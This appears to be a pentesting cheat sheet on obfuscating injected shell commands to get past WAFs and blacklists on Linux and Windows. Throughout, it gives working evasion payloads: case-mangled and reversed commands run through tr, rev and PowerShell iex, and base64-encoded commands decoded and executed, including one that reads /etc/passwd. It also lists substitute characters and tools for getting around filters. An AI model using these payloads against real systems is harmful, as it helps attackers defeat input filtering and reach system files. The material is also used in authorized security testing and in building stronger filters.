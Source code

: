 ### Overview

- Used to bypass advanced filtering solutions (e.g. **WAFs**, strict **blacklists**)
- Involves manipulating command appearance while maintaining functionality
- Applicable to **Linux** and **Windows**

---
## Techniques

### 1. **Case Manipulation**

#### Windows (Case-Insensitive)
```powershell
WhOaMi   # Executes as whoami
```
#### Linux (Case-Sensitive)

Use sub-shell with `tr` to lowercase:
```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```
Replace **spaces** with **%09** (tabs) if needed

### 2. **Reversed Commands**

#### Linux
```bash
echo 'whoami' | rev           # Output: imaohw
$(rev<<<'imaohw')             # Executes: whoami
```

#### Windows
```powershell
"whoami"[-1..-20] -join ''    # Reverses: imaohw
iex "$('imaohw'[-1..-20] -join '')"   # Executes: whoami
```

### 3. **Encoded Commands**

#### Linux: Base64 Encoding
```bash
echo -n 'cat /etc/passwd | grep 33' | base64
# Output: Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```
Avoid pipes (`|`) using `<<<`

#### Windows: Base64 PowerShell Command
```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
# Output: dwBoAG8AYQBtAGkA

iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```

#### Linux Equivalent for Encoding in Windows Format
```bash
echo -n whoami | iconv -f utf-8 -t utf-16le | base64
# Output: dwBoAG8AYQBtAGkA=
```

---
## Key Points

- Replace filtered **space** characters with `%09` (tab)
- Avoid using filtered characters by encoding or reversing
- Use alternatives like:
    
    - `sh` instead of `bash`
    - `openssl base64 -d` instead of `base64 -d`
    - `xxd` for hex decoding

## Summary Table

|Technique|Platform|Example|Purpose|
|---|---|---|---|
|Case Manipulation|Windows/Linux|`WhOaMi`, `$(tr ...)`|Avoid blacklisted lowercase commands|
|Reversal|Windows/Linux|`$(rev<<<'imaohw')`|Avoid using command in raw form|
|Encoding|Windows/Linux|`base64`, `iconv`, `iex`|Evade character and command filters|
